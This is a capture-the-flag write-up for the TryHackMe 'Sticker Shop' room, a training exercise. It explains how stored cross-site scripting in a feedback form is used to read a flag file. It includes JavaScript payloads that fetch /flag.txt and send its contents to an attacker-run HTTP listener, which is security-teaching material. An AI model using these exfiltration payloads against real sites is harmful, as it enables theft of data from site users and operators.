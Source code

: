 ```yaml
---
clayout: ctf
title: The Sticker Shop
type: TryHackMe
date: 2025-03-02
level: Easy
icon: /ctf/tryhackme/the-sticker-shop/icon-room.png
image: /ctf/tryhackme/the-sticker-shop/icon-room.png
description: Can you exploit the sticker shop in order to capture the flag?
ctf-link: https://tryhackme.com/room/thestickershop
---
```



## Challenge description

Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web
development, so they decided to develop and host everything on the same computer that they use for browsing the internet
and looking at customer feedback. Smart move!

Can you read the flag at `http://MACHINE_IP:8080/flag.txt`?

## Challenge Overview

This challenge revolves around identifying and exploiting a vulnerability in the sticker shop's feedback system to gain
access to a restricted flag file. The website allows user input through a feedback form, which is likely susceptible to
cross-site scripting (XSS). By injecting JavaScript, we aim to exploit this vulnerability and retrieve the flag.

## Web Enumeration

Navigating to `http://10.10.112.109:8080` presents us with the home page of the **Cat Sticker Shop**:

![The Sticker Shop](/ctf/tryhackme/the-sticker-shop/home.png)

The website also contains a **Feedback** page, which allows users to submit comments:

![Feedback](/ctf/tryhackme/the-sticker-shop/feedback.png)

Attempting to access `http://10.10.112.109:8080/flag.txt` directly results in an unauthorized access error:

![Unauthorized Flag Access](/ctf/tryhackme/the-sticker-shop/unauthorized.png)

Since the flag is inaccessible directly, we need to find an alternative way to retrieve its contents.

## Exploiting the Feedback Form

Given that the website allows user-submitted feedback, it is possible that the input is not sanitized properly. If the
application fails to escape user input before rendering it on the page, we can inject JavaScript (XSS) to perform
malicious actions.

### Proof of Concept (PoC)

To test for an XSS vulnerability, we use a simple payload that attempts to send a request to our external server.

#### Steps:

1. Set up a simple HTTP server to capture requests:

   ```bash
   python3 -m http.server 8000
   ```

2. Submit the following payload in the feedback form:

   ```html
   <script>fetch("http://<your-thm-ip>:8000")</script>
   ```

3. If the vulnerability exists, our HTTP server should receive an incoming request:

   ![Listener Output](/ctf/tryhackme/the-sticker-shop/poc.png)

Since our request was received, this confirms that the feedback form is vulnerable to stored XSS.

## Retrieving the Flag

Now that we have confirmed the vulnerability, we craft a payload to fetch the contents of `flag.txt` and send it to our
external listener.

### Exploit Payload:

```html
<script>
    fetch("/flag.txt")
        .then(response => response.text())
        .then(text => fetch("http://<your-thm-ip>:8000/?data=" + text));
</script>
```

### Steps to Execute:

1. Ensure your HTTP server is still running:

   ```bash
   python3 -m http.server 8000
   ```

2. Submit the payload in the feedback form.

3. Check your listener for incoming requests containing the flag:

   ![Flag Retrieved](/ctf/tryhackme/the-sticker-shop/flag.png)

By intercepting the request, we successfully retrieve the flag and complete the challenge!
